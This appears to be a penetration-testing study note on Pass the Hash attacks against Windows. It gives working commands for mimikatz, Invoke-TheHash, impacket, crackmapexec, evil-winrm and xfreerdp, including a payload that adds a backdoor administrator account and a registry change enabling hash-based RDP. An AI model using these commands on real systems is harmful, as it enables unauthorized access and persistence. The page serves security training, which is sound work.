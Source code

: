 ```yaml
---
title: Pass The Hash
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - privilege escalation
  - windows
---
```


# Pass The Hash

With NTLM, passwords stored on the server and domain controller are not "salted," which means that an adversary with a password hash can authenticate a session without knowing the original password. A Pass the Hash (PtH) attack is a technique where an attacker uses a password hash instead of the plain text password for authentication. 

## Pass the Hash with Mimikatz (Windows)

see [mimikatz](mimikatz.md)

```powershell
# Pass The Hash attack in windows:
# 1. Run mimikatz
mimikatz.exe privilege::debug "sekurlsa::pth /user:<username> /rc4:<NTLM hash> /domain:<DOMAIN> /run:<Command>" exit
# sekurlsa::pth is a module that allows us to perform a Pass the Hash attack by starting a process using the hash of the user's password
# /run:<Command>: For example /run:cmd.exe
# 2. After that, we canuse cmd.exe to execute commands in the user's context. 
```


## Pass the Hash with PowerShell Invoke-TheHash (Windows)

[See Powershell Invoke-TheHash](invoke-the-hash.md). This tool is a collection of PowerShell functions for performing Pass the Hash attacks with WMI and SMB. WMI and SMB connections are accessed through the .NET TCPClient. Authentication is performed by passing an NTLM hash into the NTLMv2 authentication protocol. Local administrator privileges are not required client-side, but the user and hash we use to authenticate need to have administrative rights on the target computer.


When using Invoke-TheHash, we have two options: SMB or WMI command execution.

```powershell
cd C:\tools\Invoke-TheHash\

Import-Module .\Invoke-TheHash.psd1
```


### Invoke-TheHash with SMB

```powershell
Invoke-SMBExec -Target $ip -Domain <DOMAIN> -Username <USERNAME> -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
# Command to execute on the target. If a command is not specified, the function will check to see if the username and hash have access to WMI on the target.
# we can execute `Invoke-TheHash` to execute our PowerShell reverse shell script in the target computer.
```

[How to generate a reverse shell](reverse-shells.md).

### Invoke-TheHash with WMI

```powershell
Invoke-WMIExec -Target $machineName -Domain <DOMAIN> -Username <USERNAME> -Hash 64F12CDDAA88057E06A81B54E73B949B -Command  "net user mark Password123 /add && net localgroup administrators mark /add" 
```

[How to generate a reverse shell](reverse-shells.md).


## Pass the Hash with Impacket (Linux)

### Pass the Hash with Impacket PsExec

```bash
impacket-psexec <username>@$ip -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

### Pass the Hash with impacket-wmiexec

Download from: [https://github.com/fortra/impacket/blob/master/examples/wmiexec.py](https://github.com/fortra/impacket/blob/master/examples/wmiexec.py).


### Pass the Hash with  impacket-atexec

Download from:  [https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py)


### Pass the Hash with  impacket-smbexec

Download from: [https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)


## Pass the Hash with CrackMapExec (Linux)

See [CrackMapExec](crackmapexec.md)

```powershell

# Using a hash instead of a password, to authenticate ourselves
crackmapexec smb $ip -u <username> -H <hash> -d <DOMAIN>

# Execute commands with flag -x
crackmapexec smb $ip/24 -u <Administrator> -d . -H <hash> -x whoami
```



## Pass the Hash with evil-winrm (Linux)

See [evil-winrm](evil-winrm.md).

If SMB is blocked or we don't have administrative rights, we can use this alternative protocol to connect to the target machine.

```bash
evil-winrm -i $ip -u <username> -H <hash>
```


## Pass the Hash with RDP (Linux)

```bash
xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:$ip
# /pth:<hash>   Pass the hash
```

**Restricted Admin Mode**, which is disabled by default, should be enabled on the target host; otherwise, you will be presented with an error. This can be enabled by adding a new registry key `DisableRestrictedAdmin` (REG_DWORD) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa` with the value of 0. It can be done using the following command:

```powershell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

Once the registry key is added, we can use xfreerdp with the option /pth to gain RDP access.


## UAC Limits Pass the Hash for Local Accounts

UAC (User Account Control) limits local users' ability to perform remote administration operations. When the registry key `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` is set to 0, it means that the built-in local admin account (RID-500, "Administrator") is the only local account allowed to perform remote administration tasks. Setting it to 1 allows the other local admins as well.

>Note: There is one exception, if the registry key FilterAdministratorToken (disabled by default) is enabled (value 1), the RID 500 account (even if it is renamed) is enrolled in UAC protection. This means that remote PTH will fail against the machine when using that account. ´